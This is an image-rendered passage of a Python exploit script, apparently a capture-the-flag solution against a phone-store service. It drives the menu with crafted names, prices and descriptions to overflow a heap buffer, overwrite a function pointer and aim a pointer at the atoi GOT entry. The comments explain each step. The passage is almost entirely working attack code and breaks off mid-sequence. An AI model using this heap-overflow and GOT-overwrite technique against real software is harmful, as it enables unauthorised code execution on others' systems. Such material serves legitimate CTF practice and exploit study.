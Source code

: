 ```
    s.connect(('localhost', 6666))
    #s.connect(('146.148.60.107', 6666))
    
    # pause to allow gdb to attach
    raw_input()
    
    # register store
    readtil('choice?')
    sendln('a')     
    readtil('store?')
    # store name; maximum allowed, need it to overflow a buffer later!
    sendln("S"*63)  
    
    # the program *needs* to have an item to sell before it can generate a store menu
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln('-'+'9'*0xe)
    readtil('description?')
    sendln('B'*0x4f)
    
    # generate store menu. this will be 0xb20 bytes large, on the heap. 
    # overflow such that the store description will overwrite the second item's function pointer
    readtil('choice?')
    sendln('c')

    # second item
    readtil('choice?')
    sendln('a')     # sell a phone
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
    sendln('4')
    readtil('price?')
    sendln(''+'9'*0xf)  # this will make the price of this item 0x7fffffff, ready to be abused later
    readtil('description?')
    # use this later to overwrite the ptr to the money DWORD
    sendln('A'+p(0x804b038)+'A'*(0x4f-5)) # 0x804b038 = atoi@got
    
    # allocate the rest of the items
    for i in range(13):
        readtil('choice?')
        sendln('a')
        readtil('name?')
        sendln('A'*0x1f)
        readtil('OS?')
        sendln('4')
        readtil('price?')
        sendln('-'+'9'*0xe)
        readtil('description?')
        sendln('B'*0x4f)    
    
    # overflow
    readtil('choice?')
    sendln('a')
    readtil('name?')
    sendln('A'*0x1f)
    readtil('OS?')
```